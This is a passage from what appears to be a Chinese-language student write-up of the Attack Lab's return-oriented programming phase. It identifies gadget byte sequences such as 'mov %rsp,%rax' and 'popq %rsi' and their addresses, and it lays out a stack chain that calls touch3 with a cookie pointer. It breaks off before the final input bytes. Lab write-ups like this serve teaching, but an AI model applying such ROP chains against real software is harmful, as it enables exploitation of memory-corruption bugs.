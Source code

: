 其他指令都好找，就是`48 89 e7`找不到紧跟`c3`的。

所以只能间接将`%rsp`传递给`%rdi`

先按照前缀找:`48 89`

```nasm
0000000000401aab <setval_350>:
  401aab: c7 07 48 89 e0 90            	movl	$0x90e08948, (%rdi)     # imm = 0x90E08948
  401ab1: c3                           	retq
```

`48 89 e0`正好是`mov %rsp, %rax`是可以接受的，并且`90`是nop.

那么还差一个`mov %rax, %rdi`是重复的。

所以:

```text
address + 0x38: [cookie的ASCII]  # <- %rdi + 0x30
address + 0x30: [touch3的地址]     
address + 0x28: [gadget 6的地址]
address + 0x20: [add_xy()的地址]
address + 0x18: [第二个参数:0x28]
address + 0x10: [gadget 4的地址]
address + 0x08: [gadget 2的地址]  # mov %rsp, %rax时，%rsp在这
address       : [gadget 0的地址]  # <- %rsp 即将ret跳转到gadget0
--------上面是栈的结构----------

gadget 0: mov %rsp, %rax        # 间接传递，先传给%rax
gadget 1: ret
gadget 2: mov %rax, %rdi        # 获取%rsp的值 初始化add的第一个参数
gadget 3: ret                   # 进入gadget4
gadget 4: popq %rsi             # 初始化%rsi第二个参数为0x30
gadget 5: ret                   # 然后ret进入add_xy:0x4019d6

# 进入add_xy之后ret
# %rax为加法结果: %rdi + 0x30

*gadget 6: mov %rax, %rdi        # 加法结果保存为第一个参数
*gadget 7: ret                   # 这是add_xy内部的ret
```

那么`gadgets`的字节码及其地址有:

```text
48 89 e0 # mov %rsp, %rax -> 0x401a06
c3       # ret            
48 89 c7 # mov %rax, %rdi -> 0x4019a2
c3       # ret
5e       # popq %rsi      -> 0x401383
c3       # ret
48 89 c7 # mov %rax, %rdi -> 0x4019a2
c3       # ret
```

查找字节码在`rtarget.asm`的地址，得到缓冲区输入的内容有:
